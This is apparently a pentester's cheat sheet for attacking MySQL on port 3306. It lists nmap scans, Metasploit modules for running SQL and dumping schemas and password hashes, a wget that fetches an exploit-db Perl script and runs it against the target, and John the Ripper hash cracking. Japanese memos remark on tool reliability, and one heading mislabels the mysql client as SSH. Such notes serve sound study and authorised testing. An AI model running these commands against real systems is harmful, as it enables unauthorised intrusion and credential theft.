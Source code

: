 # MySQL / Port 3306
MySQL is a relational database management system (RDBMS) based on Structured Query Language (SQL)

## Workflow
Provided that necessary credentials such as username and password is already found, or anonymous login is allowed.

1. Port scan with nmap
2. Enumerate useful information with several tools
3. Crack the password hash of a user
4. Access MySQL server with credentials


## Advance preparation
```
export rhost=[RHOST IP]
```

## Port scan
Check if port 3306 is open
```
sudo nmap -sS -sV -O $rhost
```

## Enumeration
### Metasploit (*1)
Execute arbitrary commands on the MySQL server
```
use auxiliary/admin/mysql/mysql_sql
```

### Nmap ([MySQL-Enum](https://nmap.org/nsedoc/scripts/mysql-enum.html)) (*2)
```
sudo nmap $rhost -vv --script=mysql-enum
```

### CVE : [2015-5615](https://www.exploit-db.com/exploits/23081) (*3)
```
wget https://www.exploit-db.com/raw/23081 -O /tmp/mysqlenum.pl
cd /tmp && perl mysqlenum.pl $rhost usernames.txt
```

To install Parallel::ForkManager:
```
sudo cpan Parallel::ForkManager
```

## Exploitation
### Metasploit
Dump the tables, and column names of the whole database (*1)
```
use auxiliary/scanner/mysql/mysql_schemadump
```

Obtain users' password hashes on the MySQL server (*1)
```
use auxiliary/scanner/mysql/mysql_hashdump
```

### Crack password hash
```
echo 'carl:*xxxxxxxxxxxxxxxxxxxxxxxxxxxxx' | tee hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### Access MySQL server with SSH
```
mysql -h $rhost -u [USERNAME] -p
```

To install MySQL client:
```
sudo apt install default-mysql-client
```

## Memo
*1 ユーザー名、パスワードがあらかじめわかっており、特定のユーザーでログインできる状態でないと失敗する。

*2 使い方は簡単だが、結果は信頼性に欠けるので注意。実行結果にリストアップされたアカウントはいずれもパスワードなしでログイン可能と表示されるが、実際にはそれだとアクセス拒否された。  

![スクリーンショット 2021-10-26 22 12 18](https://user-images.githubusercontent.com/39334151/138886104-c714cdc3-d6ec-49b8-bbf4-1d9bf556ca0e.png)  

*3 使い方は簡単だが、結果は信頼性に欠けるので注意。ダミーのユーザー名にもかかわらず、ユーザーが存在する旨の結果を返すことも多々ある。  

![スクリーンショット 2021-10-26 22 11 52](https://user-images.githubusercontent.com/39334151/138886012-c1fc9882-c9c4-43f7-8a55-c7d9fd4e0fa9.png)  


